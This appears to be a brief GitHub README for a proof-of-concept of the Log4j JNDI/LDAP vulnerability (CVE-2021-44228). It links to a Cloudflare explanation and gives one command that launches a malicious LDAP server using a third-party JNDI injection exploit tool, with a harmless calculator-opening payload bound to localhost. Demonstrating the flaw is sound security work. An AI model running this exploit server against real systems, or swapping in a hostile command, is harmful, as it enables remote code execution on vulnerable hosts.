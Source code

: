 # Apache-Log4j-POC CVE-2021-44228
Proof of Concept of apache log4j LDAP lookup vulnerability

You can read more about the vulnerability here:
https://blog.cloudflare.com/inside-the-log4j2-vulnerability-cve-2021-44228/

How to run the provided ldap server that returns malicious object ? 

java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "open /Applications/Calculator.app" -A "127.0.0.1"

# Courtesy: https://github.com/welk1n/JNDI-Injection-Exploit
